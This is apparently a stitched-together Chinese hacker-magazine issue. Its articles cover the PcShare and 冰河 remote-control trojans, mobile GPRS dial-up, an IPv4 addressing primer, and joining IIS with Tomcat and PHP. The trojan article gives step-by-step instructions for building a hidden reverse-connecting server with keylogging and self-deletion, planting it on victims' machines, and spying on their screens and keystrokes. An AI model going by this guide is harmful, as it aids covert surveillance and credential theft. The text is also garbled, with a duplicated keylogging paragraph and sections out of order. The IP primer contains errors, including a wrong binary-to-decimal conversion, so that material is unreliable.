早期的木马程序由于是客户端向服务端主动进行连接的，如果远程计算机系统安装有防火墙的话，由于防火墙的拦截，因此客户端很难进行连接控制。正是由于该原因，反弹连接技术应运而生。反弹技术的诞生解决了传统的木马程序不能访问装有防火墙，以及不能控制局域网内部的计算机的难题。实际上这种木马程序就是在本地系统打开了一个设定的端口，远程系统不是等待客户端连接，而是主动连接客户端。使用该技术的木马包括“黑洞、灰鸽子、PcShare、彩虹桥等。下面是常见的木马所对应的端口。
+   - 7626：冰河木马
- 7306：网络精灵木马
- 1243：SUB木马
- 6267：广外女生木马
- 80：PcShare木马
- 2007：黑洞木马
- 8000：灰鸽子木马

## 二、木马操作不过如此
### 1. 国产王者木马——冰河
说到国产木马程序，有一款软件不得不提，那就是王者“冰河”。冰河是一款基于TCP/IP协议和WINDOWS操作系统的网络工具，冰河采用标准的C/S结构，包括客户端和服务器两部分组成。由于其在密码验证制度的缺陷，以及软件本身带有浓厚的木马程序特性，因此曾经在一段时间内风靡全国。现在的冰河已经不单单是一款远程控制软件了，更多的代表了一种意义和一种精神。

### 2. 反弹优秀代表——PcShare
虽然冰河曾经是国产木马的代表，但是随着时间的推移以及网络的发展，冰河也显得英雄迟暮。而后有很多优秀的国产木马脱颖而出，其中PcShare由于采用了大量的主流木马技术，因此深受国内木马爱好者的喜欢和推崇。
#### （1）设置服务端
首先运行客户端程序PcShare，点击工具栏的“生成客户”按钮，在弹出的“生成被控制端执行程序”的窗口中进行设置。首先在“IP地址（端口）”选项中，输入本机当前的IP地址及连接端口，另外木马也可以使用域名进行连接。
PcShare木马除了使用反弹连接技术还采用了HTTP隧道技术。简单的来说，“HTTP隧道技术”就是把所有要传送的数据，全部封装到HTTP协议里进行传送。由于使用“HTTP隧道技术”的服务端程序，连接的端口一般为80端口，这样既可以轻易的穿过防火墙的拦截，也不容易引起用户的注意。
接着在“新创建服务的参数设置”中，设置木马启动服务的信息，以及服务端程序插入的进程信息，这里我们就按照木马程序的默认设置，让木马进行相关信息的自动生成。然后在“特性参数设置”里面设置木马的上线信息，并且选中“启动键盘监控、启动驱动隐藏、运行后自动删除EXE文件”等，如图1所示。最后点击“生成”按钮，就能生成我们配置好的木马服务端程序了。
#### （2）客户端操作
如果在配置服务端程序的时候，更改了连接端口等默认信息的话，那么需要点击工具栏中的“参数设置”按钮。接着在弹出的“系统参数设置”窗口中，在“自动上线连接端口”选项中做出相应的更改。更改了参数设置后，需要重新启动客户端才行。下面将配置好的服务端，安装到远程系统中，很快肉鸡就上线了，如图2所示。
从图2中我们可以清楚的看到这台远程计算机的一些基本情况，包括IP地址、计算机名称、操作系统版本、CPU、内存等情况。在了解了这些信息以后我们就可以进行控制操作了，PcShare木马重要的功能都集中在它的工具栏中，这里我就选择其中的主要命令来进行演示。
首先点击工具栏中的“屏幕监控”按钮，在弹出的窗口就可以看到远程屏幕当前的内容。点击工具栏中的“控制鼠标和键盘输入”按钮，就可以直接通过鼠标和键盘对远程计算机进行操作。

## 三、木马还是防范为主
要防止木马程序对系统的入侵，目前有两个途径的防范最为重要，即网页木马和光盘传播。网页木马是目前个人电脑中较大威胁，而利用化盘等移动设备进行传播的木马也不容小视。还好利用金山清理专家都可以轻松应付。点击工具栏中的“网页防挂马”功能，提示用户网页木马的危害和该功能的操作。由于该功能是利用插件的形式来操作的，因此首先要点击“安装并开启”按钮来开启。以后当系统遇到网页木马的时候，程序就会自动的进行阻止，并且弹出一个窗口来提示用户，如图5所示。另外选择“安全百宝箱”中的“优盘病毒免疫工具”，选中所有的选项后点击“启用选中项”按钮即可。

## 四、小结
从前面的介绍我们可以看出：木马最重要的就是，准确的设置连接地址和连接端口。只有这样客户端和服务端才能正确进行连接控制，木马的控制操作还是相对简单的，用户只需要点击需要的控制命令就可以完成操作。以后我们还将继续以“端口”为中心，为大家介绍其它在黑客活动中常见的内容。
还可以通过“保存当前屏幕内容”功能，对获取的屏幕内容进行保存，如图3所示。接着再点击工具栏中的“键盘监控”按钮，我们就能监控到远程计算机的所有键盘输入情况。当我们打开“键盘监控”窗口以后，只要远程计算机有键盘操作，就会立即将输入的内容显示到程序的窗口中，如图4所示。PcShare木马是目前为数不多的可以记录中文信息的木马程序，通过右键中的“保存”命令将记录保存到本地。

# 电脑利用手机 GPRS 无线上网
从本文您可以学到：怎样通过手机来实现电脑的无线上网
上次看见KK因为本本没有网卡而苦恼，其实用手机的GPRS功能也可以无线上网，前提是你的手机能和电脑连接，本人推荐使用NOKIA的。先讲下上网的原理：简单的说就是把手机用作调制解调器，手机卡用作拨号，和adsl拨号差不多，呵呵，但是这可是无线的哦。
购买较好的手机的时候，都会有个配套软件光盘，里面有手机连接电脑用的驱动程序，安装上就OK。现在先把手机连上电脑，然后新建一个拨号连接。步骤是控制面板——网络连接——点击左上角的创建一个新的连接，弹出如图1的对话窗口。
然后点击下一步，有的菜菜要问了，有那么多选项选哪个呢？由于截图麻烦，我就从第一个开始用序号表示选哪个，分别是1-2-1，到这一步输入名称“GPRS”。如图2。
然后再按“下一步”，电话号码填99＃、992＃或者993＃其中的一个（各地可能不同），如图3。用户名和密码不用填，直接按下一步，然后完成。
要想更好的上网，我们需要设置一下拨号设置的属性，选中你拨号时使用的猫，默认已经选中了，在“配置”——“最高速度”里选择460800（数据线），921600（红外线）。若使用数据线拨号提示找不到猫或者不稳定老掉线，就把460800改为23400或者115200，红外线的不用改！如图5、图6。
然后点确定退出！在“网络”那一项，只选择internet协议（Tcpip），其它的都不要选择，这样可以加快连接的速度。然后确定退出。最后，在Internet选项——高级，勾选上“通过代理连接用 http 1.1”，再到多媒体一栏，把图像，动画，视频通通去掉，如图7。
这样可以加快浏览网页的速度，当然，你想看图片的话可以都选上，但打开网页的速度……

还可以通过“保存当前屏幕内容”功能，对获取的屏幕内容进行保存，如图3所示。接着再点击工具栏中的“键盘监控”按钮，我们就能监控到远程计算机的所有键盘输入情况。当我们打开“键盘监控”窗口以后，只要远程计算机有键盘操作，就会立即将输入的内容显示到程序的窗口中，如图4所示。PcShare木马是目前为数不多的可以记录中文信息的木马程序，通过右键中的“保存”命令将记录保存到本地。

# 菜鸟必修课之精通 IP 地址（上）
冷雪书生
+   从本文你可以学到：
1. 全面了解 IPV4 地址的知识
2. 子网、子网掩码以及网段知识

在《浅谈 ARP 攻击与防御》一文中，想必各位菜鸟和刚入黑手的新手对 ARP 攻击的原理有了非常深刻的认识，在文中曾提到网段这一术语，可能很多菜鸟对网段还很迷惑，脑海中光摇只有 IP 地址的概念和简单认识而已，学黑客就要求对 IP 地址有非常深刻的认识和理解，为了照顾黑手的菜鸟兄弟们，下面还是先从基础的来讲起，一些概念在 IPV6 中要用到，高手就请略过，大家看的时候最好能动笔，最后希望你能耐心的把本文看完，闲话少说，下面开始吧。

| 字节位 | 第一字节 | 第二字节 | 第三字节 | 第四字节 |
|---|---|---|---|---|
| 比特位 | 1 | 2 3 4 5 6 7 8 | 9-16位 | 17-24位 | 25-32位 |
| A类IP | 0 | 8位网络号 | 24位主机号 |
| B类IP | 1 0 | 16位网络号 | 16位主机号 |
| C类IP | 1 1 0 | 24位网络号 | 8位主机号 |
| D类IP | 1 1 1 0 | 多播地址，不分网络号和主机号 |
| E类IP | 1 1 1 1 0 | 用于做实验而被保留以后使用 |

图1 分类IP关系图

## 第一部分：重温IPV4
### 一、IP地址基础
IP地址全称为 Internet Protocol Address，译为网际协议地址，又叫因特网地址，它工作在 TCP/IP 协议的网络层，用来在互联网上标识一台主机的身份和地理位置。IP 地址有 IPV4 和 IPV6 两种（常用的），V 表示版本。先以大家熟悉的 IPV4 来说明，后面再介绍 IPV6。IPV4 就是我们现在用的 IP 地址，它是用 32 比特二进制来表示的，比如 11000000101010000000000100000101 就是一个 IP 地址，你可以把这个二进制转换成十进制（2130706433），它同样代表的是 IP 地址，但这样太麻烦，而且也不好记，于是将其分成 4 组，每组 8 位，之间用点来分隔，并将其转化为十进制来表示，所以前面的 IP 地址就成了 192.168.1.5，怎么样？很熟悉吧。正因为如此，像 127.0.0.1 这样的 IP 地址又可以写成 127.0.1 或 127.1 都是正确的，这里写 0 时把 0 忽略了，但计算机处理时会自动将其补上。现在打开你的 CMD 依次运行下面的命令：ping 127.0.0.1，ping 127.0.1，ping 127.1，ping localhost，ping 2130706433，怎么样？是不是结果都一样啊，都能 ping 通吧。继续往下看吧，好东西还多着呢。

IP地址有私有和全局之分，私有 IP 地址又叫内网 IP 地址，是指不能在因特网上使用的地址，若要使用则必须进行 NAT（全局地址翻译）处理，将其转换成全局 IP。全局 IP（又叫外网 IP）当然就是指能在因特网上使用的了，它是被因特网承认的合法 IP 地址，这样的 IP 地址要向 ISP 申请才能使用（如电信），而私有 IP 无需申请就可以使用。

### 二、分类IP地址
分类就是将 IP 地址划分为 A、B、C、D、E 五类，各类有各自的范围，它们的关系我用图 1 来表示。

#### 1. A类IP地址
首先大家要明白什么是网络号、主机号和网络地址。网络号在分类下是用来标识 IP 地址类别的，如 A 类、B 类，而在不分类下就表示网段信息。主机号是用来标识在某个网络号中所能使用的主机数信息（即表示主机总数），而网络地址则表示主机号全为 0 的地址，比如 192.168.1.0 就表示网络地址，网络地址其实就是网段地址，关于网段后面再讲，网络地址不能作为 IP 地址使用，只能用来表示某网段信息，而 192.168.1.1 则为 IP 地址，而且 IP 地址是属于 192.168.1.0 这个网络中的。主机号全为 1 的地址称为广播地址，也叫直接广播地址，因为它只能将信息广播到特定的网段中，这里还有两个特殊的地址，0.0.0.0 表示本网络，也叫任意网络或未知网络，在不同情况下含义是不同的，在每个网络中都存在这个地址，这个地址是可以被使用的，它主要用在 DHCP 请求和默认路由上，既能作为源地址也能作为目的地址使用。255.255.255.255 被称为本地广播地址，它不能跨路由广播，但能在本网段进行信息扩散，对于采用 ADSL 上网来说输入 ipconfig 后可能你的 IP 地址是这样的，如图 2。

这里为什么子网掩码和上面的本地广播地址是一样的呢？不用奇怪，看完 CIDR 后你就知道了，认真看吧。
对于 A 类 IP 地址，前 8 位为网络号，后 24 位为主机号，每一个网络号对应的主机数计算方法为 2 的主机号的位次方减 2，这里为 2 的 24 次方减 2（2^24-2 台）。A 类 IP 地址规定第一个比特位为 0，表示范围为：00000000—01111111，即 0—127，IP 地址范围为 0.0.0.0—127.255.255.255。在这里如果把主机号全为 0 则成了网络地址，所以该把全 0 的舍掉，如果主机号全为 1 则成了直接广播地址也要舍掉，所以 IP 地址有效范围为 1.0.0.1—127.255.255.254。在这里又有一个特殊的地址叫本地环回地址，大家最熟悉不过了，常称为 LoopBack Address，环回地址可以在本机循环递归的使用，即它既可以作为源地址又可以作为目的地址。环回地址一旦开启就一直处于活动状态，用上面的知识可以知道环回地址的有效范围为 127.0.0.1—127.255.255.254，默认环回地址为 127.0.0.1，并且对应的 WINS（或 DNS）名称被自动解析为 localhost，其它地址照样可以使用，你可以 Ping 一下。环回地址作用主要为：测试本地网络连通性，失败表示本机 TCP/IP 协议有问题。
问题：用来进行 WEB 测试，大家不是经常搭建 IIS 之类的 WEB 服务器么？输入 http://127.1 或 http://localhost 就可以访问测试，测试其它服务及连通性。在 A 类地址中有一段私有 IP 地址，可能大家不是很熟悉，很多人都把它当成全局地址，这段私有 IP 地址有效范围为 **10.0.0.1—10.255.255.254**，简写为 10.0.0.0/8（有党就知道怎么回事了），有了上面的基础，下面几类理解起来就容易了。

#### 2. B 类、C 类 IP 地址
B 类 IP 地址用前 16 位表示网络号，后 16 位表示主机号，规定以 10 开头，表示范围为：**10000000—10111111**，IP 地址有效范围为：**128.0.0.1—191.255.255.254**。B 类私有 IP 地址有效范围为：**172.16.0.1—172.31.255.254**，在 B 类中还有一段特殊的 IP 地址，用得很少。大家都知道一些网络中用 DHCP 来自动分配 IP 地址，但是在采用 DHCP 的情况下，如果 DHCP 服务器出现问题导致无法将 DHCP 池中的 IP 地址分配给客户端时，就得使用保留的 B 类 IP，它的有效范围为 **169.254.0.1—169.254.255.254**，即它也只能作为私有地址使用。
C 类 IP 地址用前 24 位表示网络号，后 8 位表示主机号，规定以 110 开头，表示范围为：**11000000—11011111**，有效范围为：**192.0.0.1—223.255.255.254**，其中的私有 IP 地址有效范围为：**192.168.0.1—192.168.255.254**，这个 IP则 IP 地址 192.168.1.3 就属于该网段。网段主要作用有：进行网络分隔，方便管理；分隔广播域，防止 ARP 攻击；方便管理企业中各个部门；有效利用 IP 地址等。比如一些大型企业内部为了方便管理就需要划分网段，划分网段就是要合理地设计好子网掩码，图 4 中的也是网段划分，它是最简单的划分方法，下面举 2 个例子让大家完全理解。



现在我们回到图 2 的话题上来，对于子网掩码为 255.255.255.255 并不奇怪，子网掩码为什么会是这样的呢？由于我们上网通常采用 ADSL 方式，ADSL 接入分为虚拟拨号和专线。

- **例 1：**
某主机 IP 表示为 172.16.1.122，求它的子网掩码和该网段能容纳的主机数？根据上面的知识可以知道子网掩码为 255.255.240.0，主机数为 2^12-2=4094 台。

- **例 2：**
有 4 个网段地址 172.16.193.0/24、172.16.194.0/24、172.16.196.0/24、172.16.198.0/24，求进行路由聚合后的网络地址？这里要用到“最长前缀匹配”方法，它的定义不好下，但它有个特点就是匹配的位数要最长且必须相等。由于这里 4 个地址中都是前 24 位为网络号，且前 2 个字节完全相同，所以只需把第三个字节化为二进制形式，即 11000001（193）、11000010（194）、11000100（196）、11000110（198），现在对比一下，前 5 位完全相同，即最长前缀匹配为 5 位，这样后 3 位就不再是网络号，而是主机号了，所以聚合后的网络地址为 172.16.192.0/21。其他情况与此类似，大家可以自行分析。这里给出一个网段划分图例，如图 5。

专线就是从 ISP 拉一根专线到用户端，用户获得的 IP 地址和子网掩码都是固定的；而对于虚拟拨号，由于采用的是拨号池（相当于 DHCP 池），这样用户每次拨号就会从拨号池中选出一个 IP 给用户，这就是用 ADSL 拨号上网每次 IP 地址都不一样的原因。如果此时子网掩码类似于 255.255.255.248 这样的形式，则我们可以对它进行网段划分，这样我们就可以得到多个 IP 地址，显然这样电信就会吃亏，所以子网掩码只能为 255.255.255.255。

对于 IPv4 到此也分析得差不多了，下期我们来看看 IPv6，它将给我们带来全新的感受。

**编辑点评：**

本期是文章的上篇，主要介绍了 IPv4 的相关知识，这主要是为了抛弃 IPv6 做好准备。随着明年 IPv6 的正式启用，IPv4 会慢慢淡出历史舞台。那什么是 IPv6？就请关注下期的杂志吧。

# 老当益壮——新年特辑！



星星雨

大家知道 Web 脚本编程，为了研究脚本黑客，抑或仅仅为了体验自己建站的感觉，很多朋友都在自己的机子上搭建了 Web 环境。支持动态脚本是一定要的。而有时我们不仅需要一个脚本环境，可能是 asp 和 php 的组合；可能是 php 和 jsp 的组合；也可能……当你在混合 jsp 和其它脚本的时候，是否因为要在浏览器地址栏中输入端口号而感到不爽呢？有时候这不是修改端口号就能解决的简单问题，但的确，我们可以鱼和熊掌兼得，甚至更多……

# 同一主机通过 80 端口实现对 3P 脚本的解析

- 从本文中你可以学到：
- jsp/Servlet 环境的搭建
- Tomcat 下如何部署一个简单的 Web 应用
- 整合 IIS 和 Tomcat 使通过 80 端口访问 jsp 脚本和 Servlet
- IIS 的安装配置及虚拟目录的设置
- 如何使 IIS 处理 php 脚本请求

通常是这样的：http://www.nohack.cn:8080/index.jsp，这样客户端在访问服务端的网页的时候就会向服务端的 8080 端口发送请求，而不是默认的 80 端口。但要输入端口，这样的访问方式我们很不习惯，至少我不喜欢。前一阵看网上的空间商的广告，看到很多空间商的空间都同时支持 asp 和 php，支持 jsp 的倒是很少，于是了解到可以在同一台主机上同时实现多个不同脚本环境的应用，可以在 80 端口同时访问 asp 和 php。看来可以这么做，相信大家看过以前某期的一篇《快速把 IIS 打造成 PHP 服务器》，已经知道怎么做了吧！推广开，是否也可以使用类似的方法在 80 端口上同时实现对 asp、php 和 jsp 的访问呢？答案当然是肯定的，要不怎么会有这篇文字。由于 Tomcat 配置没有 IIS 那样让人容易接受和记忆，在参考了许多资料和自己的多次实践后，终于有了点心得，写出来给大家分享，也算是自己做的一个笔记吧！

## 一、非前言

先说说什么是 3P，其实是我为了标题能短一些将 asp、jsp 和 php 缩写了，但是还没达到预期的目的，题目还是很长，我想在标题上就表现出我这篇文章要讲的内容。稍微玩过一些 Web 服务器的朋友都知道，asp 的执行需要 IIS 的支持，php 的执行需要 php 环境和 Apache 的支持，并且默认情况下我们通过 80 端口就可以访问到用 asp 和 php 脚本编写的 web 程序；而 jsp 有点不一样（我们这里也包括 Servlet），它除了需要 jdk 的支持外，还需要一个叫做 jsp 容器的东西来解析 jsp 文件，而其中最有名也是使用得最多的就是 Tomcat 了：一个既是 Web 服务器又是 jsp 容器的免费开源的服务器程序。

安装过 Tomcat 的朋友应该有点了解，默认情况下 Tomcat 是在 8080 端口监听客户端浏览器请求，我们访问 jsp 网站的时候 URL 通常是这样的：http://www.nohack.cn:8080/index.jsp，这样客户端在访问服务端的网页的时候就会向服务端的 8080 端口发送请求，而不是默认的 80 端口。

## 二、服务器和环境安装

首先给出我将做的一些操作的解释。要支持 asp，IIS 的安装是必须的。为了保持这篇文章的完整性，下面将大概再说一下 IIS 的安装，以及后面如何使 IIS 支持 PHP 脚本，熟悉了这一过程的朋友就可以跳过这两部分了。php 脚本执行的话肯定需要 php 环境的支持，而既然有了 IIS 作为 Web 服务器，Apache 就不用了，这样就只剩下 jsp 环境了。还是 Tomcat，但它作为 jsp 容器的同时又是一个 Web 服务器，而且端口如果使用 80 的话那肯定会和 IIS 冲突，这样就无法达到我的目的。于是道路就只剩下一条了，我们只把 Tomcat 作为 jsp 容器（其实这里的 jsp 容器于 jsp 脚本来说就像 php 环境于 php 脚本），而不把它当做 Web 服务器用。同样的道理，我们就需要使用一些手段将 IIS 和 Tomcat 结合到一块，使 IIS 在接受到对 jsp 或 Servlet 等 Java 应用请求的时候自动将请求转发给 Tomcat 处理。其实 JSP 脚本中最难解决的就是 jsp，掌握了 IIS 和 Tomcat 的结合方法，这篇文章也就没有什么麻烦的地方了。

实现原理基本就是这样了，我的测试环境是 Windows XP Professional SP2。接下来给出一个我们要用到的软件及程序列表，以及它们的用途描述，这些东西大家都可以在光盘中找到，反正都是 free 的。

- IIS 5.1：用于 Web 服务器及 asp 脚本的解释；
- jdk1.6：执行 jsp 脚本及 Servlet 的必要环境；
- Tomcat 6.0：jsp 及 Servlet 容器，负责对 Servlet 进行实例化、初始化及错误等操作；
- php 5.2.2：php 脚本执行环境；
- isapi_redirect.dll：Tomcat 的用于连接 IIS 的插件。

### 1、IIS 的安装与配置

尽管是说烂了的东西，这里还是允许我说一下吧，forgive me……IIS 作为 Windows 的一个组件，在我的这个版本的操作系统上是不安装的（Server 版本的 Windows 上默认是否安装，忘记了），于是需要我们手工安装 IIS。打开“控制面板”——“添加或删除程序”，在它的窗口左侧点击“添加/删除 Windows 组件”，在出现的“Windows 组件”窗口中我们可以看到“Internet 信息服务（IIS）”，没有安装的话前面是没有勾勾的，如图 1。

上吧！为节省时间我们就保持默认，在点击“下一步”前将 Windows 安装光盘放入光驱，如果没有安装盘的话也可以到网上 down 一个 WinXP 的安装镜像，然后用虚拟光驱导入镜像。具体操作不在本篇文章讨论范围内，不明白的朋友自己查看相关资料。放入安装光盘后点击“下一步”，一般情况下程序会自动寻找正确的路径安装 IIS，而如果程序提示你需要插入 Windows 的安装光盘的话，你只需要浏览 Windows 安装盘所在驱动器或光盘的 i386 目录就可以了，如图 2。





然后继续操作就可以了。如果一次安装不成功，多尝试几次就可以了。IIS 安装成功后，在“控制面板”的“管理工具”中就会多出一项“Internet 信息服务”了。双击它，一般情况下都会有一个以你的计算机名作为根的树，下面有一个叫做“网站”的子目录，再下面就是你的站点了，如图 3。

这里的站点名及下面的内容我都修改过了，所以不要为了你的情况和我图片中所描述的不同而苦恼。既然我们要使用 IIS 作为总的 Web 服务器，那就用它来“总揽大局”吧！首先在 E 盘下建立一个名称为 Web 的文件夹，然后在 Web 文件夹下分别建立名称为 asp、php 和 jsp 的三个目录。我这里这样，你放在哪里叫什么名字我管不着，能明白意思就可以了。我的意思很明显，Web 下的每个文件夹都放对应的脚本应用，这样有利于区分，使网站结构更清晰，并且由于 Servlet 的参与，这样也有另一个好处，这里先卖一个关子。

这里我们需要在当前的站点下建立三个虚拟目录：asp、php 和 jsp，每个虚拟目录对应 E:\Web 的同名文件夹，这样做的原因基本同上。首先在本地的站点上点击右键，并选择“新建”——“虚拟目录”，如图 4。



